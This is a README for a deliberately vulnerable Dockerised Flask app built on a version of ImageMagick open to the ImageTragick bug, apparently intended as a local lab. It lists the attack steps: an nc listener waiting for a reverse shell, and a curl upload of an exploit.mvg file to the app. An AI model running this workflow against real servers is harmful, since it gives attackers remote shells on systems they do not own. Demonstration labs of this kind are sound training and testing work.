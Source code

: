 # docker-imagetragick

Run a containerised Flask app that relies on a version of ImageMagic that is vulnerable to the ImageTragick bug.

## Steps

1. Build a docker image:

        $ docker build -t imagetragic .

2. Create a docker container:

        $ docker run -d --name imagetragic -p 127.0.0.1:8080:8080 imagetragic

3. Listen for the reverse shell:

        $ nc -l -n -vvv -p 4443

4. Edit the contents of `exploit.mvg` so that is uses the correct IP address that `nc` is listening on.

5. Upload exploit to vulnerable application:

        $ curl -v -F file=@exploit.mvg http://127.0.0.1:8080

## Links

https://imagetragick.com/
